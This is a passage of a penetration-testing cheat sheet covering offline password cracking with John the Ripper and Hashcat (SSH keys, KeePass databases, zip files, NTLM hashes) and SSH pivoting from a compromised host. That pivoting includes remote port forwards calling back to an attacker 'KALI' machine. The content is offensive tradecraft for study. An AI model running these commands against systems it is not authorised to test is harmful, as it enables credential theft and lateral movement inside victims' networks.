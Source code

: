 ```bash
# Main *2john(s)...
ssh2john id_rsa > hash.ssh
kee2john db.kdbx > hash.keepass
zip2john file.zip > hash.zip 

*Full List*: https://github.com/openwall/john/tree/bleeding-jumbo/run 

# Convert the obtained hash to John format(above link)
john hashfile --wordlist=rockyou.txt
```

## Hashcat

```bash
# Obtain the Hash module number 
hashcat -h | grep ntlm
hashcat -m 1000 hash wordlists.txt --force
```

# SSH tunneling and stuff

```bash
# TOR port
ssh pwned@target -i id_rsa -D 9050 

# Change the info in /etc/proxychains4.conf also enable "Quiet Mode"
# Example
proxychains4 crackmapexec smb TARGET 

# Instruct SSH to listen on all interfaces on port 4455 from the compromised host (0.0.0.0:4455),
# then forward all packets to port 445 on the newly-found host (INTERNAL:445).
ssh -N -L 0.0.0.0:4455:INTERNAL:445 user@COMPROMISED

# An example of using the new tunnel
# SMBClient traffic to COMPROMISED:4455 is forwarded to INTERNAL:445, so...
smbclient -p 4455 -L //192.168.1.3/ -U admin --password=Welcome123!

# Dynamic port forwarding
# In OpenSSH, a dynamic port forward is created with the -D option. 
# The -D option takes the IP address and port to bind to. 
# In this case, we want it to listen on all interfaces on port 9999. 
# We don't need to specify a socket address to forward to. 
# The -N flag is used to prevent a shell from being spawned.
# On COMPROMISED...
ssh -N -D 0.0.0.0:9999 user@COMPROMISED

# Remote port forwarding
# Run on COMPROMISED to create an SSH remote port forward as part of an SSH connection back to Kali
# The remote port forward option is -R, with the listening socket defined first and the forwarding socket next.
# Example 1: listen on port 2345 on our Kali machine (127.0.0.1) and forward all traffic to the target machine.
ssh -N -R 127.0.0.1:2345:TARGET:5432 adversary@KALI

# Example 2: open remote port forward through a perimeter machine to open traffic from Kali to INTERNAL
sudo ssh -N -R INTERNAL:7781:EXTERNAL:18890 adversary@KALI 

# Remote dynamic port forwarding, run from COMPROMISED
ssh -N -R 9998 adversary@KALI
# Add line to proxychains
sudo echo "socks5 127.0.0.1 9998" >> /etc/proxychains4.conf
# Example of usage:
```